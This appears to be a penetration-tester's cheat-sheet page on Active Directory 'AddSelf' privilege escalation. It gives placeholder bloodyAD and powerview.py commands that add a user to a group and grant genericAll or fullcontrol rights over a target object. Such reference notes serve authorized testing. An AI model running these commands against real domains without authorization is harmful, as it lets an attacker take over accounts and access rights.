 ```yaml
---
title: "AddSelf"
date: 2024-8-2
tags: ["Powerview", "Genericall", "AddMember", "Group Policy", "Domain Controller", "Addself", "Active Directory", "Windows", "BloodyAD"]
---
```


### Privesc #1: Add self to group (From Linux)

{{< tab set1 tab1 active >}}bloodyAD{{< /tab >}}
{{< tab set1 tab2 >}}powerview.py{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Add self to group

```console
# With password
python3 bloodyAD.py -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add groupMember <GROUP> '<USER>'
```

```console
# With Kerberos
python3 bloodyAD.py -d <DOMAIN> -u '<USER>' -k --host <DC> add groupMember <GROUP> '<USER>'
```

#### 2. Add genericAll over target group

```console
# With password
python3 bloodyAD.py -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

```console
# With Kerberos
python3 bloodyAD.py -d <DOMAIN> -u '<USER>' -k --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Connect

```console
sudo ntpdate -s <DC> && powerview '<DOMAIN>/<USER>:<PASSWORD>@<TARGET_DOMAIN>'
```

#### 2. Add self to group

```console
Add-DomainGroupMember -Identity <GROUP> -Members '<USER>'
```

```console
# Check
Get-DomainGroupMember -Identity <GROUP>
```

#### 4. Add fullcontrol over target group

```console
# Exit and login again to apply changes
Add-DomainObjectAcl -TargetIdentity <TARGET_GROUP> -PrincipalIdentity '<USER>' -Rights fullcontrol
```

```console
# Check
Get-DomainObjectAcl -Identity <TARGET_USER> -Where 'SecurityIdentifier contains <USER>'
```

<small>*Ref: [powerview.py](https://github.com/aniqfakhrul/powerview.py)*</small>

{{< /tabcontent >}}
